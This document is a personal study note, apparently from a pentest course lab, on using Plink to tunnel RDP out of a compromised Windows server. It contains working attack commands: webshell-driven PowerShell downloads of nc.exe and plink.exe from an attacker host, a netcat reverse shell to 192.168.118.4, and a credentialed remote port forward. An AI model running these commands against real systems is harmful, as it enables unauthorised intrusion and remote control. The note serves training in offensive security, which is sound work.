

# Using Plink on Windows
In some cases, network admins don't want to have OpenSSH installed on their [Windows](../../../computers/windows/README.md) hosts and they sometimes remove it. Without OpenSSH, most network admins, who still need to be able to connect to their servers, use [_PuTTY_](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).
## PuTTY
PuTTY is a tool you can use to make various kinds of connections to systems on a local or remote network. It can be used for Console connections, [telnet](../../../networking/protocols/telnet.md), SSH, etc.. PuTTY can be used via the GUI but it *also has a command line tool* called "[_Plink_](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)"
## Plink
According to the [Plink manual](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html), Plink has *most of the tools that OpenSSH offers*. HOWEVER, it still does not support [remote dynamic port forwarding](../SSH-tunneling/remote-dynamic-port-forwarding.md) unfortunately :(.
## Scenario
Assume the following scenario: two servers sit in the target's [DMZ](../../../networking/design-structure/DMZ.md) `CONFLUENCE01` and `MULTISERVER03`. They are both *protected by firewalls* b/w the [WAN](../../../networking/design-structure/WAN.md) and the DMZ [subnet](../../../PNPT/PEH/networking/subnetting.md), but `MULTISERVER03` has *port 80* open to the WAN. 

Assume we can get a [web-shell](../../../cybersecurity/TTPs/exploitation/web-shell.md) on `MULTISERVER03` which gives us a command line, but we can't use something like [RDP](../../../networking/protocols/RDP.md) for GUI access (because the Firewall is blocking all other connections). Assume we also have found some credentials.
### Getting a Revshell
We can access our webshell on `MULTISERVER03` by browsing to the URL `/umbraco/forms.aspx` and when we use it to run commands, they execute as the `apppool\defaultapppool` user (Windows IIS). 

We need to establish a [revshell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) for better access and a more interactive shell. We can use the webshell to download `nc.exe`- the Windows version of [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md). To do that, we need to host the binary on our Kali machine
#### Configuring Apache2
On our Kali machine, we can use Apache2 to start a web server for hosting our netcat binary. First, we need to start the `apache2` service using `systemctl`:
```bash
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```
Fortunately, `nc.exe` is already available to us on our Kali machine at `/usr/share/windows-resources/binaries/nc.exe`. So we can copy that into our *Apache webroot*:
```bash
kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```
Now that our server is started and `nc.exe` is being serverd from the webroot, we should be able to download it from the Windows machine via `wget`:
```bash
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
#### Executing `nc.exe`
Now with `nc.exe` on our Windows host, we can setup a listener on our Kali machine:
```bash
kali@kali:~$ nc -nvlp 4446
listening on [any] 4446 ...
```
Now, we can execute `nc.exe` to *connect back to our listener* by giving the following command *through our webshell*:
```powershell
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```
If it worked, we should see the following output on our Kali netcat listener:
```bash
...
listening on [any] 4446 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.64] 51889
Microsoft Windows [Version 10.0.20348.825]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
### Downloading Plink onto `MULTISERVER03`
We can get the plink binary from our kali machine at `/usr/share/windows-resources/binaries/plink.exe`. Again, we can copy it to our Apache 2 webroot to serve it so we can then fetch it from the compromised Windows host:
```bash
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 

kali@kali:~$ 
```
To fetch plink, we can run the following command from our revshell (this is a [PowerShell](../../../coding/languages/powershell.md) one-liner):
```powershell
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```
### Using Plink
We can use plink to set up a [remote port forward](../SSH-tunneling/remote-port-forwarding.md) so we can access `MULTISERVER03`'s RDP port from our attacking Kali machine. The command is similar to the one used for OpenSSH, but one big difference is *we have to give our password in the command*. That means it will likely *get logged somewhere* on the Windows machine we run plink on:
```powershell
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
The host key is not cached for this server:
  192.168.118.4 (port 22)
You have no guarantee that the server is the computer
you think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:q1QQjIxHhSFXfEIT4gYrRF+zKr0bcLMOJljoINxThxY
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "kali".
Linux kali 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 21 15:50:39 2022 from 192.168.50.64
kali@kali:~$ 
```
> [!Note]
> In case you have to run this command from a non-[TTY](../../../computers/linux/terminal-tty-shell.md) shell or on a limited Windows shell, you may not be able to input `y` to the cache key prompt. In that case, you can pipe your input into `plink.exe` instead:
>
> `cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7`

If the plink command worked, then port `9833` should be open on *our attacking machine's [loopback](../../../networking/routing/loopback.md) interface*. Since it's port-forwarding to the [RDP](../../../networking/protocols/RDP.md) port on `MULTISERVER03`, we can use [xfreerdp](../../../CLI-tools/linux/remote/xfreerdp.md) to connect to it with the `rdp_admin` user:
```bash
kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833  
...
Certificate details for 127.0.0.1:9833 (RDP-Server):
        Common Name: MULTISERVER03
        Subject:     CN = MULTISERVER03
        Issuer:      CN = MULTISERVER03
        Thumbprint:  4a:11:2d:d8:03:8e:dd:5c:f2:c4:71:7e:15:1d:20:fb:62:3f:c6:eb:3d:77:1e:ea:44:47:10:42:49:fa:1e:6a
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
[05:11:17:430] [1072332:1072333] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Eastern
...
```

> [!Resources]
> - [_PuTTY_](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
> - [_Plink_](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)
> - [Plink manual](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.